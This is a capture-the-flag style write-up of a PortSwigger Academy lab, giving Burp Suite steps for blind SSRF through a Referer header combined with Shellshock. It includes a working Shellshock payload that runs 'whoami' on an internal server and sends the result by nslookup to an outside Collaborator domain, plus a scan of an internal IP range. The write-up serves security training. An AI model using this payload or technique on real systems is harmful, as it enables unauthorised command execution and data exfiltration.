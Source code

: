 # Blind SSRF with Shellshock exploitation

## Description

[This site](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation) uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## Reproduction and proof of concept

1. In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the Collaborator tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:

```text
() { :; }; /usr/bin/nslookup $(whoami).burp-collab-subdomain
```
    
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number 1), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter `1`, `255`, and `1` in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.

## Exploitability

An attacker will need to use the analytics functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080`. In the blind attack, the attacker will need to use a Shellshock payload against the internal server to exfiltrate the name of the OS user. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, an attacker must use Burp Collaborator's default public server._
